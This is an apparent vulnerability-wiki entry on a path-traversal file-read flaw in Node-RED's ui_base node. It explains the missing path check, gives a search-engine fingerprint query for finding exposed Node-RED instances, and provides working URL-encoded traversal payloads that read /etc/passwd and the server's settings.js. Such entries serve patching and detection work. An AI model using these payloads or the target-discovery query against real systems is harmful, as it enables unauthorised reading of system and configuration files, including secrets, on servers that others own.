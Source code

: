 # Node-RED ui_base Any file reading vulnerability

## Vulnerability Description

Node-RED In /nodes/ui_base.js, the URL matches '/ui_base/js/*' and is then passed to path.join,

Lack of verification of the final path can lead to a path traversal vulnerability, which can be used to read sensitive data on the server, such as settings.js

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Node-RED</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Node-RED"</span>

## Vulnerability reappears

Visit the page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210701185722667.png)



Verify POC

```plain
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210701185812622.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210704171045540.png)